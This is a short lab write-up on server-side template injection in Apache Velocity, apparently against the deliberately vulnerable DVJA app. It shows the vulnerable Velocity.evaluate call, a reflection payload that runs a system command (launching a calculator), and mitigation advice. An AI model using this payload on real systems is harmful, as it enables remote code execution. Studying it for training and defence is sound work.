

# SSTI

The application fails to perform any validation on the input as it takes the input and reflect it on the frontend as a welcome message. But before being reflected, the input is put through a template engine, in this case the Apache's Velocity template engine.

```java
//snippet in src/main/java/com/appsecco/dvja/controllers/TemplateAction.java
            if (Velocity.evaluate(context, writer, "test", name)) {
                System.out.println("velocity is running");;
            }

```

To test for SSTI in Velocity, we use the following payload to combine code injection and ssti:

```java
//substitute with your equivalent calculator
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("kcalc") 
```

Entering the payload causes the engine to pop us a calculator.

_Fig 1: SSTI payload succeeded_

## Solution

To fix this, we should avoid using functions such as evaluate and if possible avoid logic template all together. But if we have to implement logic template then we should have proper sandboxing and input sanitization
